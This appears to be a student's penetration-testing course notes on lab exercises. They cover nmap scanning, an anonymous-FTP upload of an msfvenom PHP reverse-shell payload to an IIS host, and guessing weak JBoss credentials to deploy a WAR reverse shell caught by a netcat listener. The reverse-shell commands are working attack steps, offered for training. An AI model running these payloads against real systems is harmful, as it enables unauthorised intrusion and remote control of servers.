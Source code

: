 Do a basic shakedown:

    nmap -A -sV 192.168.0.62
    nmap --script vuln 192.168.0.62

Hmm FTP. Try to connect to the FTP server:

    ftp 192.168.0.62

Connect with the anonymous account. Looks like we have `put` access. Lets figure out if the IIS server is running an interpreted runtime such as ASP or PHP, by crafting some basic pages for these languages, and putting them on the server. See if they run. Looks like PHP is the go. MSFVenom a PHP payload:

    msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.99 LPORT=4444 -f raw -o bad.php

FTP `bad.php` onto the target. Spin up a listener that the PHP reverse shell will connect to:

    msfconsole
    use exploit/multi/handler
    set payload php/meterpreter_reverse_tcp
    options
    set LHOST 192.168.0.99

Now visit `bad.php` on the target server using a web browser. You should get a shell.

The MSFConsole listener session, will show a new active sessions:

    msf> sessions

To connect to a specific session:

    msf> sessions 3



## JBoss Server Exercise

Next up a Linux box, running JBoss with weak credentials. Try some basic combos admin/admin, admin/password, you might get lucky. If so, churn out an exploit and payload using msfvenom, a JSP packaged into a `WAR` (a Java web application archive) file would be good, which venom supports.

    msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.99 LPORT=4444 -f war -o rshell.war

Deploy it through the admin console. Make sure its enabled. Finally make sure you have a listener running, which the reverse shell will attempt to connect, in this case keep it simple with netcat:

    nc -nvlp 4444

Finally, hit the remote shell exploit by visiting [http://192.168.0.63:8080/rshell](#) in a browser, which will attempt to call home (netcat). Boom, remote shell.


# Practical Assessment

* Will need to relay to get through
* Kali > Mail > DC
* Required to bulid a scenario, by establishing a number of VM's (e.g. an enterprise network)
* The more complex, and more CNO techniques it demonstrates, the better.
* Andrew will provide access to some base builds (e.g. kernel priv esc issues, old OS)
* Checkout vulnhub for machines with 


# Resources

* [Offensive Security's Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/)
* [hackthebox.eu](https://www.hackthebox.eu/)
* [MITRE's ATT&CK Matrix](https://attack.mitre.org/wiki/Main_Page)



